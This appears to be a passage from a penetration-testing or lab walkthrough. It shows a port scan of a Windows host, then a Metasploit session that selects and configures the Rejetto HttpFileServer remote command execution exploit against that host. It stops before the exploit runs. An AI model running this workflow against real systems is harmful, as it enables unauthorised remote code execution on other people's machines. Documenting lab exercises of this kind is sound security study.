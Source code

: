 ```
10.0.29.158  135    tcp    msrpc              open   Microsoft Windows RPC
10.0.29.158  139    tcp    netbios-ssn        open   Microsoft Windows netbios-ssn
10.0.29.158  445    tcp    microsoft-ds       open   Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
10.0.29.158  3389   tcp    ssl/ms-wbt-server  open   
10.0.29.158  49152  tcp    msrpc              open   Microsoft Windows RPC
10.0.29.158  49153  tcp    msrpc              open   Microsoft Windows RPC
10.0.29.158  49154  tcp    msrpc              open   Microsoft Windows RPC
10.0.29.158  49155  tcp    msrpc              open   Microsoft Windows RPC
10.0.29.158  49165  tcp    msrpc              open   Microsoft Windows RPC
```

The HttpFileServer is rejetto.

```
msf5 > search rejetto

Matching Modules
================

   #  Name                                   Disclosure Date  Rank       Check  Description
   -  ----                                   ---------------  ----       -----  -----------
   0  exploit/windows/http/rejetto_hfs_exec  2014-09-11       excellent  Yes    Rejetto HttpFileServer Remote Command Execution

```

```
msf5 > use exploit/windows/http/rejetto_hfs_exec
msf5 exploit(windows/http/rejetto_hfs_exec) > show options

Module options (exploit/windows/http/rejetto_hfs_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   HTTPDELAY  10               no        Seconds to wait before terminating web server
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     10.0.29.158      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      80               yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT    8080             yes       The local port to listen on.
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The path of the web application
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Exploit target:

   Id  Name
   --  ----
   0   Automatic
```
